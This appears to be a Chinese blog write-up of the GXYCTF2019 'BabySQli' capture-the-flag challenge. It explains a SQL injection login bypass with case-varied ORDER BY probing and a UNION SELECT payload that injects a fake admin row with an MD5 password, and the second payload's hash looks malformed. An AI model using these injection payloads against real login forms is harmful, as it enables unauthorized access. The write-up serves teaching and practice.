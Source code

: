 +++
title = 'GXYCTF2019---BabySQli'
date = 2024-09-16T18:03:22+08:00
draft = false
categories = ['CS', 'sec', 'wp']
+++

## 题目

登录框
![](../../../../img/Pasted%20image%2020240916180547.png)


---
## 分析

### 爆 wrong user
![](../../../../img/Pasted%20image%2020240916181350.png)

猜测要先通过用户名的检测，注释提示 `select * from user where username = '$name'

![](../../../../img/Pasted%20image%2020240916181354.png)
- 先 base32解密，再base64加密


### 尝试admin正确，爆 wrong password

sqli 正常开始用 `' oRder by x` 测试，发现是3列
- 大小写绕过对 order 的过滤
- 进一步发现括号也过滤了


### 通过 `union` 创建虚拟表

通过 union 需要添加一条数据：
```mysql
select * from users union select 1,'admin','diy password';
```

payload：
```
name=1' union select 1,'admin','234' %23&pw=234
```

但是查询发现表中数据经过 md5加密，所以 payload改为：
```
name=1' union select 1,'admin','234289dff07669d7a23de0ef88d2f7129e7' %23&pw=234
```


---
## 原理：`union` 创建虚拟表

加上 union 关键字后会在表末生成我们自己定义好的数据。
- 虚拟是指 union 产生的数据是临时的，在下次查询的时候就不存在了，因为它没有实际保存在数据库中

![](../../../../img/Pasted%20image%2020240916181534.png)

可以通过往表中添加一条当前用户名和自定义密码的数据，通过对密码的检测。